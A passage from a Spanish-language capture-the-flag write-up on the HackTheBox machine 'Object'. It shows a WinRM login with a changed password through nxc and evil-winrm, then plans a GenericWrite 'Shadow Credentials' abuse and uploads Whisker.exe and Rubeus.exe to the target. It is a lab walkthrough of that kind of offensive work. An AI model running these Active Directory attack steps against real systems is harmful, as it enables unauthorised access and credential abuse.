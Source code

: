Y podemos comprobar que la hemos cambiado correctamente.
```console
$ nxc winrm 10.129.246.207 -u 'smith' -p 'Pointed123@'
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\smith:Pointed123@ (Pwn3d!)
```

Y ganamos acceso como `smith`
```console
$ evil-winrm -i 10.129.246.207 -u 'smith' -p 'Pointed123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\smith\Documents> whoami
object\smith
```

## Abusing GenericWrite -> Shadow Credentials (Failed)

Para abusar este privilegio, podríamos utilizar [pyWhisker](https://github.com/ShutdownRepo/pywhisker), con esta herramienta podemos manipular el atributo `msDS-KeyCredentialLink` del usuario/equipo víctima para conseguir control completo sobre ese objeto pero ya hemos visto en el escaneo inicial que hay muy pocos puertos abiertos y no tenemos abierto ni el RPC ni el LDAP externamente.

Con `chisel` podríamos hacer un proxy tipo socks para compartirnos los puertos que necesitemos pero recordemos que existen limitaciones de seguridad por detrás, así que vamos a utilizar `Whisker` y `Rubeus` para agregar las Shadow Credentials a `maria`

Nos podemos descargar el binario de `Whisker.exe` precompilado [aquí](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Specific/Whisker.exe)

Lo subimos a la máquina víctima.
```console
*Evil-WinRM* PS C:\Users\smith\Documents> upload Whisker.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/Whisker.exe to C:\Users\smith\Documents\Whisker.exe
                                        
Data: 59392 bytes of 59392 bytes copied
                                        
Info: Upload successful!
```

Ahora subimos el `Rubeus`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> upload Rubeus.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/Rubeus.exe to C:\Users\smith\Documents\Rubeus.exe
                                        
Data: 617128 bytes of 617128 bytes copied
                                        
Info: Upload successful!
```
